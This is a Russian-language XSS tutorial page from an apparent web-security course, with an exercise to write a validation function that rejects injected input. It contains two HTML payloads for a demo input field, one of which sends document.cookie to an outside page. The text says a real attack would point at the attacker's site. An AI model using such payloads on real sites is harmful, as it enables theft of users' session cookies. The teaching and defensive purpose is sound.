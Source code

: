 # ![ico-30 study] XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
^^вместо "C" используется "X", чтобы не было путаницы с CSS^^

Внедренный код будет выполняться на компьютере пользователя
Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера

Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода

[![ico-20 link] Перейдите по ссылке](https://garevna.github.io/js-samples/#03)

Откройте **~Chrome DevTools~**

Установите точки останова  ( ~breakpoints~ ) для того, чтобы пошагово отслеживать выполнение кода и вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IMG SRC="images/hack.png"
     onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
~~~

это довольно безобидная "атака", которая просто перезапишет содержимое ~body~

2. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IFRAME SRC=js/attack.html
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
~~~

^^с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем^^

Обратите внимание, что вместо ссылки ![ico-20 cap] ~https://garevna.github.io/js-samples/js/attack.html~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## ![ico-25 hw] Задание

В панели навигации откройте файл **~js/index03.js~**

Обратите внимание на функцию валидации ввода пользователя  ( **~testUserText~** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "_XSS атака отражена_" с указанием текущей даты и времени

__________________________________________________________

[![ico-20 link] securitylab](https://www.securitylab.ru/analytics/432835.php)
[![ico-20 link] websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
